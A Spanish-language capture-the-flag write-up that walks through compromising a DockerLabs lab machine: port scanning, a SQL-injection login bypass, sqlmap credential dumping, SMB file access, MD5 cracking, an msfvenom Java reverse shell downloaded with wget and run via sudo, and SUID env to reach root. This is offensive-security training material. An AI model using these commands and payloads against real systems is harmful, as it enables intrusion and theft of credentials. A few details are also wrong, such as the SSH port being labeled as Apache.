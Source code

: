 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f4b82c25-f28d-4ccc-a242-ca404be16290)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos

1. **22/tcp(SSH):** Apache httpd 2.4.52 (Ubuntu)
2.  **80/tcp(HTTP):** Apache httpd 2.4.52
3. **139/tcp(SMB):** Samba smbd 4.6.2
4. **445/tcp(SMB):** Samba smbd 4.6.2
### Puerto 8080
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevo a un login.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9e4eb0e7-31b2-4684-a358-9bcce926894c)

# Fase 2- Exploración

#### Feroxbuster

No se encontró nada.


# Fase 3- Explotación

#### Admin'
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/336a8d34-9c7d-4015-ac93-6924d468a742)
Probamos las credenciales `admin` `admin` pero no funcionaron.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fc344e00-d2a2-4119-9302-68c7f2336d5a)
Cuando introducimos `admin'` como entrada en el panel de login, nos sale un SQL ERROR, es probable que el sistema esté construyendo una consulta SQL que podría lucir así:
```python
SELECT * FROM users WHERE username = 'admin'';
```

Para explotar este error podríamos probar:
```python
SELECT * FROM users WHERE username = 'admin'' or 1=1 -- -' AND password = 'xxx';
```
En SQL injection, `' or 1=1 -- -` hace que la condición `1=1` sea verdadera, evitando la verificación de contraseña, y `-- -` es un comentario para evitar errores de sintaxis.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/adba4299-63c3-470c-be2b-37b1ba6adde2)

Y Entramos. Nos dice `Bienvenido Dylan! Has accedido correctamente.` Posible usuario para fuerza bruta.

#### Contraseña
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d42f4914-a538-4dfc-b958-daf95b1cfcea)
Queremos averiguar la contraseña del usuario, entonces usamos SQLMap. El comando es el siguiente:
```python
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```
Esto va hacer un escaneo de las bases de datos que encuentre.

```python
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

```python
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```

```python
`sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch`
```
```
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+
```
Encontramos la contraseña del usuario Dylan.

#### Smb
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/93cecf08-f295-47b2-b6c3-9f1160293d4e)
Nos fijamos en smb y vemos que tenemos permisos de lectura y escritura como el usuario dylan en shared.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/61101ba7-cc7f-47af-af45-88ffeb3c50bd)
Dentro del directorio shared existe un archivo llamado `augustus.txt` que contiene una clave o hash: `061fba5bdfc076bb7362616668de87c8`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2c350d4b-cf63-41ba-95e6-b67febccf253)

Usando la herramienta Jhon le sacamos la encriptación de MD5. y tenemos posible usuario y contraseña.

#### Augustus
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/48439a73-a69d-4294-87f2-369d6c52f477)

Y estamos dentro!

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a264e05c-00f1-4e78-b62f-acaf39e0cf2f)
Despues de realizar el tratamiento de la TTY. Al hacer el comando `sudo -l` vemos que podemos ejecutar el binario java como el usuario `dylan`.

#### Java
Buscando en internet, encontré una pagina web que lo que nos dice es que para escalar privilegios con el binario java, es necesario realizar los siguientes pasos:
Maquina Atacante: >
Maquina Victima: $!
```python
> msfvenom -p java/shell_reverse_tcp LHOST=<local-ip> LPORT=4444 -f jar -o shell.jar
> python3 -m http.server 80

$! wget 172.17.0.1/shell.jar

> nc -nlvp 4444

$! sudo -u dylan /usr/bin/java -jar /tmp/shell.jar
```
Realizando Estos pasos ya estamos dentro como el usuario `dylan`.

#### Dylan
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d6af22e4-1539-4f2d-8cfd-a454e98b9aef)

Como no sabemos la contraseña del usuario `dylan`, realizamos un `find / -perm -4000 -user root 2>/dev/null`, y vemos que tenemos permisos del binario `env`.
```
dylan@41cc9028288e:/tmp$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Maquina finalizada como usuario root!.

